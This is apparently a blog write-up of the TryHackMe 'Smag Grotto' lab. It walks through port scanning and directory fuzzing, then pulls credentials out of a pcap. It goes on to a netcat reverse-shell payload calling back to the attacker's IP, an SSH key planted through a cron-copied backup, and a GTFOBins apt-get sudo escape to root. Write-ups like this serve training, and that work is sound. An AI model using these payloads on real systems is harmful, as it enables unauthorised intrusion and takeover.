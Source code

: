 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2bfd7a82-8a06-4f7c-b823-7461fd033ad2)## Smag_Grotto TryHackMe
## Level: Easy
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.10.161.219 -T4  -v -p-```

From our scan we have 2 open ports, port 22 which runs ssh and port 80 which runs http. Enumeration today will be focused on port 80.





# Enumeration

Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/db5050dc-f3d8-44be-9a60-f94498386e40)

We get the message "this site is still heavily under development". I checked the web source page well there was nothing there.

Firing up our directory enumeration tool

command:```ffuf -u "http://10.10.161.219/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/TryHackMe/smag_grotto]
└─$ ffuf -u "http://10.10.161.219/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.161.219/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 225ms]
index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 214ms]
mail                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 216ms]
:: Progress: [32298/32298] :: Job [1/1] :: 211 req/sec :: Duration: [0:03:10] :: Errors: 0 ::
```
Cool, we found a ```/mail``` directory

<h4>/mail</h4>
Navigating to that directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f037aac3-8b51-4dea-8638-8d9cbc6941e1)

We are able to read their mails, the mail contains a pcap file. Lets download the file to our machine and analyze it.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c9e0ce99-8564-4326-ade4-1fcc0ec47364)

cool stuff, we'll be analyzing this pcap file by using a tool called wireshark, this tool comes preinstalled with the linux operating system

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fc2e13ce-1e4a-4e8a-9e61-8fb4811af249)

After checking for a little while, I found something interetsing

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/809c4616-e1fb-465d-8503-163abc8046ff)

Right-clicking on "HTTP" and following the "TCP" stream

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2075ac6a-b1df-4da9-a613-dcdff9a61363)

cool stuff hehe😎. We found a hostname, a username and a password.

Lets add the hostname to our ```/etc/hosts``` file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6206f356-e02b-4a46-bd87-4cec49780900)

Navigating to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9be8ae5a-ee7c-4c3c-b77a-8c04837cb66b)

Clicking on ```admin.php```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/39efca26-64a0-4097-a4ca-7409345a3584)

We are required to login. We'll be using the creds we found earlier when we were analyzing the pcap files

username:```helpdesk```         password:```cH4nG3M3_n0w```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/044ba5b0-979a-4fa2-9d7a-dabc41112fa6)

Nice, we are logged in. 

Enter a command?? How about we try the command "_fly_"?? lool just kidding. We are required to use Linux commands here

Lets start with ```id``` and ```whoami```. Using these commands doesn't display any output. So I went ahead to get a shell.

Payload:```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.133.215 1234 >/tmp/f```

You can edit the IP address to that of your kali machine.

Setting up our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80a3ba1c-beb3-4aa8-91a5-ad3343164203)

Now, lets paste the payload

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/22763d9f-7821-440d-adbc-eae10c7aeeee)

Checking our netcat listener;

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a6e34964-1fa7-453d-a603-5d64d41aedd1)

Cool, we got a shell

Stabilizing the shell

commands:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl + z (to background)
stty  raw -echo;fg
export TERM=screen
```
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/308eb1c9-d4d8-4198-a83a-f53ac75e413a)

Now, lets go ahead and escalate our privileges



# Privilege Escalation

So I found a cronjob running

command:```cat /etc/crontab```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/89a93027-26ca-4d08-82d1-754a51ef58b3)

So we can write into ```.ssh/authorized_keys```

Now, lets generate our own ssh key using the ```ssh-keygen``` command

command:```ssh-keygen -f gabimaru```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dbd4f208-db57-4d12-bf5c-9387687c06a8)

I used the name ```gabimaru```, You can choose to use a name of your choice though

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64cfd713-fd40-4538-a90c-92a6eee64c55)

So, we'll be echoing ```gabimaru.md``` into ```.backups/jake_id_rsa.pub.backup```

Let's send the file over to the targe's machine first

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb115adc-2708-45e7-b4b2-71ec52eee55b)

Now, lets overwrite the file

command:```cp gabimaru.pub /opt/.backups/jake_id_rsa.pub.backup```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/33114366-ae97-4519-9e83-edd82bda4dc4)

Now, that was successful. Lets wait a few mins then we can go ahead and log in as user ```jake```

command:```ssh jake@10.10.161.219 -i gabimaru```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28488002-4266-42da-9a58-00d1b5b43fcd)

cool, we have a shell as user ```jake```

Further escalating our privileges

Checking to see the programs sudo allows the user to run

command:```sudo -l```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/073158a9-481d-4290-b9d2-f7f0fab2f7f3)

User ```jake``` can run the ```apt-get``` command with sudo privileges.

Sweet😎, lets use this to escalate our privileges

Picking a payload from [GTFOBins](https://gtfobins.github.io/) 

payload:```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```

Lets just paste this to the target machine. Hopefully we'll get a shell as root

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/412409d1-4a2e-4a1c-ad6c-043c17890ec8)

Cool stuff, we got a shell as root


That will be all for today
<br></br>
[Back To Home](../../index.md)












